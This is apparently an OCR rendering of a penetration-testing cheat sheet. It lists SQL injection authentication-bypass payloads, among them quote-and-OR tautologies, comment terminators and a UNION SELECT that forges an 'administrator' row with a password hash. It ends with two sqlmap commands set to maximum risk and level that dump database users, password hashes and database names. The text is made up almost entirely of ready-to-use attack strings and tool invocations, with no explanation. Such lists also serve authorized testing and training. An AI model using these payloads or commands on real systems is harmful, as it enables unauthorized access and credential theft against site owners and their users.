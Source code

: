 ```sql
administrator") or "1"="1"/*
1' or 1.e(1) or '1'='1
1234 " AND 1=0 UNION ALL SELECT "administrator", "81dc9bdb52d04dc20036dbd8313ed055
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*

```

#### SQL MAP
``` 
sqlmap -r <REQUEST-FROM-BURP>

sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs

```






